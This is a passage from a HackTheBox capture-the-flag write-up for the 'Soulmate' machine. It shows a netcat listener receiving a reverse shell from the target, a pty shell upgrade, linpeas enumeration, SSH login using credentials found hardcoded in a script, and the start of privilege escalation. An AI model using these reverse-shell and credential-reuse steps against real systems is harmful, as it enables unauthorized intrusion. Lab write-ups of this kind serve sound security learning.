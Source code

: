 Then, make sure to set a listener for the reverse shell:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Soulmate]
└─$ nc -lvnp <LISTENER-PORT>
listening on [any] <LISTENER-PORT> ...
```

In the <code>soulmate.htb</code> page, try to access the reverse shell script to trigger the reverse shell:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Soulmate]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [<ATTACKER-IP>] from (UNKNOWN) [<MACHINE-IP>] 60756
Linux soulmate 5.15.0-153-generic #163-Ubuntu SMP Thu Aug 7 16:37:18 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 07:32:09 up 1 min,  0 users,  load average: 0.65, 0.37, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@soulmate:/$
```

Now, we can try to search for any potential lateral movement. I also tried to use <code>linpeas</code> to ease up the process:
```
╔══════════╣ Executable files potentially added by user (limit 70)
...                                  
2025-08-15+07:46:57.3585015320 /usr/local/lib/erlang_login/start.escript
...
```

We found out the credentials for user <code>ben</code> is hardcoded inside the file. We can try to **SSH** to the server as user <code>ben</code> and get the <code>user.txt</code>:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Soulmate]
└─$ ssh ben@<MACHINE-IP> 
ben@<MACHINE-IP>'s password: 
Last login: Mon Sep 8 07:42:01 2025 from <ATTACKER-IP>
ben@soulmate:~$
```

<details><summary><b>🏳️user.txt</b></summary></details><br>


## 💀 Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to spawn a privilege shell.

First we try to check with the **sudo permission** first
```
ben@soulmate:~$ sudo -l
[sudo] password for ben: 
Sorry, user ben may not run sudo on soulmate.
ben@soulmate:~$ 
```
